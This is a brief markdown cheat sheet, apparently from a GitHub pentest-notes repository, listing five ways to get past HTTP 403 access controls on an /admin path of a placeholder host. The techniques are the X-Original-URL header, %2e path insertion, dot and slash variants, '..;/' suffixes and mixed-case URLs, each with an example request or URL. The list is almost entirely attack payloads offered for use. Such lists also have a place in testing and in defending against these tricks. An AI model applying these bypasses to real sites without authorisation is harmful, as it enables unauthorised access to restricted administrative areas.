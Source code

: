 # 403 Forbidden Bypass

1. Using "X-Original-URL" header
```
GET /anything HTTP/1.1
Host: target.com
X-Original-URL: /admin
```
https://github.com/yunemse48/403bypasser


2. Appending **%2e** after the first slash
```
http://target.com/%2e/admin => 200
```

3. Try add dot (.) and slash (/) in the URL
```
http://target.com/admin/. => 200
http://target.com//admin// => 200
http://target.com/./admin/./ => 200
```

4. Add "..;/" after the directory name
```
    http://target.com/admin..;/
```

5. Try to uppercase the alphabet in the url
```
http://target.com/aDmIN
```
   
Source: [@iam_j0ker](https://twitter.com/iam_j0ker) 


